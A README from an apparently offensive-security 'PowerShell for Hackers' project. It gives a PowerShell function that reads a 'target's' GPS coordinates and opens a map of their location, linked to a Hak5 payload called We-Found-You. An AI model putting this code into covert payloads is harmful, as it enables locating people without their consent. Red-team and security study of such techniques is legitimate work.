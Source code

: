 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Get-GeoLocation

<p align="center">
      <a href="https://www.youtube.com/watch?v=TrOIdJ2JFUU">
        <img src=https://i.ytimg.com/vi/TrOIdJ2JFUU/hqdefault.jpg width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

This function will get the geo-location of your target 

## The Function

### [Get-GeoLocation] 

Using the Geo-Watcher function you will get the location of your Target saved to the variable $GL

Latitude and Longitude will be saved individually to the the following variables $Lat and $Lon

```
function Get-GeoLocation{
	try {
	Add-Type -AssemblyName System.Device #Required to access System.Device.Location namespace
	$GeoWatcher = New-Object System.Device.Location.GeoCoordinateWatcher #Create the required object
	$GeoWatcher.Start() #Begin resolving current locaton

	while (($GeoWatcher.Status -ne 'Ready') -and ($GeoWatcher.Permission -ne 'Denied')) {
		Start-Sleep -Milliseconds 100 #Wait for discovery.
	}  

	if ($GeoWatcher.Permission -eq 'Denied'){
		Write-Error 'Access Denied for Location Information'
	} else {
		$GL = $GeoWatcher.Position.Location | Select Latitude,Longitude #Select the relevent results.
		$GL = $GL -split " "
		$Lat = $GL[0].Substring(11) -replace ".$"
		$Lon = $GL[1].Substring(10) -replace ".$" 
		return $Lat, $Lon


	}
	}
    # Write Error is just for troubleshooting
    catch {Write-Error "No coordinates found" 
    return "No Coordinates found"
    -ErrorAction SilentlyContinue
    } 

}

$Lat, $Lon = Get-GeoLocation
```


Going a step further we can use [Start-Process] to open a tab in the browser with a map of their current location

by navigating to the following URL with the $Lon and $Lat variable plugged into it 

```
Start-Process "https://www.latlong.net/c/?lat=$Lat&long=$Lon"
```
That image will look something like this: 

![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG/Payloads/OMG-We-Found-You/location.jpg)

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[We-Found-You](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-We-Found-You)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
